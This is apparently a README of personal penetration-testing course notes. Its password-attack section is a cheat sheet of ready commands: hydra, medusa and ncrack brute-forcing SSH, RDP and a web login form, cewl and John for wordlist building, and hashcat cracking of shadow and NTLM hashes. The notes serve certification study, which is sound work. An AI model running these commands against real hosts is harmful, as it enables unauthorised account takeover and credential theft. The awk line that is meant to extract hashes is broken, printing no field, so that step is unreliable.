 # Offsec

Offsec PWK notes and frecuently used files.

<ol>
  <li>Scanning and Enumeration</li>
  <li>Exploitation</li>
  <li>Exploit Development</li>
  <li>Password Attacks</li>
  <li>Reverse Shells</li>
  <li>Privilege Escalation</li>
  <li>File Transfers</li>
  <li>Post Exploitation</li>
  <li>Port Forwarding</li>
  <li>Web Attacks</li>
</ol>

<h3> 4. Dictionary Attacks </h3> 
<p>
ncrack -vv --user rax -P wordlist.txt rdp://10.11.0.10

medusa -h 10.11.0.10 -u root -P /usr/share/wordlists/rockyou.txt -e ns -M ssh

hydra -l administrator -P wordlist.txt 192.168.11.201 ssh

hydra 10.10.10.10 :80 http-form-post "/PHP/index.php:nickname=^USER^&password=^PASS^:bad password" -l garry -P /usr/share/wordlists/nmap.lst -t 10 -w 30 -o hydra-http-post-attack.txt
</p>

<h4> Password Generation with cewl and John </h4>

cewl http://10.11.1.1/index.html >> words.txt

john --wordlist=words.txt --rules --stdout >> wordlist.txt

<h4> Cracking Hashes - Linux </h4>

cat shadow.txt | awk -F':' '{print }' > hashes.txt

hashcat -m 500 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

<h4> Cracking Hashes - Windows </h4>

hashcat -m 1000 -a 0 -o output.txt --remove hashes.txt /usr/share/wordlists/rockyou.txt

